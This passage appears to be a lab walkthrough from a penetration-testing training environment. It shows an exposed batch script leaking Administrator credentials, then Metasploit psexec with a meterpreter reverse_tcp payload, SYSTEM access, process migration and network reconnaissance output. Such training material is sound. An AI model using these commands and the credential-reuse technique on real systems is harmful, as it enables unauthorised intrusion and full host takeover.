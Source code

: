 `curl demo.ine.local:4983`:
```
@echo off net use "\\fileserver\C$" /user:Administrator abc_123321!@# if exist ←
"\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ( echo "Copying errors\..." copy "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" C:\Users\local_admin\Logs\Host1\ del "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ) else ( echo "No errors!" ) net use "\\fileserver\C$" /delete 
```

**Step 3: Exploiting SMB with Metasploit**.

`msfconsole -q`, `search psexec`, `use exploit/windows/smb/psexec`, `show payloads`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp `, `show options`, `set RHOSTS demo.ine.local`, `set SMBUser Administrator`, `set SMBPass abc_123321!@#`, `exploit`.

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

`ps -s svchost.exe`:
```
Filtering on SYSTEM processes...
Filtering on 'svchost.exe'

Process List
============

 PID   PPID  Name         Arch  Session  User                 Path
 ---   ----  ----         ----  -------  ----                 ----
 756   688   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\system32\svchost.exe ←
 916   688   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\system32\svchost.exe
 1292  688   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\svchost.exe
 1356  688   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\svchost.exe
```

`migrate 756`:
```
[*] Migrating from 2744 to 756...
[*] Migration completed successfully.
```

**Step 4: Post-Exploitation Network Configuration**.

`shell`, `ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : eu-central-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::f4c7:ea68:f70c:5621%12
   IPv4 Address. . . . . . . . . . . : 10.2.31.174 ←
   Subnet Mask . . . . . . . . . . . : 255.255.240.0 ←
   Default Gateway . . . . . . . . . : 10.2.16.1

Tunnel adapter isatap.eu-central-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
```